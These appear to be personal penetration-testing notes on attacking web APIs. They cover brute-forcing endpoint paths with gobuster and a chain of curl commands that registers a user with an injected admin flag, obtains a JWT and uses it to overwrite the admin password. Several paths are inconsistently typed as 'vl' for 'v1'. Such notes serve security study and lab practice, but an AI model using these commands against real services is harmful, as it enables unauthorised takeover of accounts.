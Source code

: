 ```yaml
---
title: 07 - API Enumeration & Abusing
updated: 2025-04-19 03:34:38Z
created: 2025-04-16 12:11:55Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## BruteForcing API endpoints

1. Create file **pattern.txt** :
```
{GOBUSTER}/v1
{GOBUSTER}/v2
```
 2. Use **gobuster** to brute force API paths using a wordlist

`gobuster dir -u http://<target>:<port> -w /usr/share/wordlists/dirb/big.txt -p pattern.txt
`
* * *
## Priviliege Escalation 
Example bug in **/register** API : 

`curl -i http://<target>:<port>/users/v1`
`gobuster dir -u http://<target>:<port>/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt`
`curl -d '{"password":"1234","username":"admin"}' -H 'Content-Type: application/json' http://<target>:<port>/users/vl/login`

Try adding a new user:
`curl -d '{"password":"pa55w0rd","username":"WDAGUtilityAccount"}' -H 'Content-Type: application/json' http://<target>:<port>/users/vl/register`

Try adding a user with **admin=True**
`curl -d '{"password":"pa55w0rd","username":"ghost","email":"pwn@localhost","admin":"True"}' -H 'Content-Type: application/json' http://<target>:<port>/users/vl/register`

Try logging in with new user:
`curl -d '{"password":"pa55w0rd","username":"ghost"}' -H 'Content-Type: application/json' http://<target>:<port>/users/vl/login`

Hopefully you will get the **auth_token** JWT authentication token !!!

Try passing the auth_token to the API:
```
curl \
 'http://<target>:<port>/users/v1/admin/password' \
 -H 'Content-Type: application/json' \
 -H 'Authorization: OAuth xxxXxXXXXxx.XXXXXXXX.XXXXXXxxx.xxxXXX' \
 -d '{"password": "pwned"}'
```
OR
```
curl -X 'PUT' \
 'http://<target>:<port>/users/v1/admin/password' \
 -H 'Content-Type: application/json' \
 -H 'Authorization: OAuth xxxXxXXXXxx.XXXXXXXX.XXXXXXxxx.xxxXXX' \
 -d '{"password": "pwned"}'
```



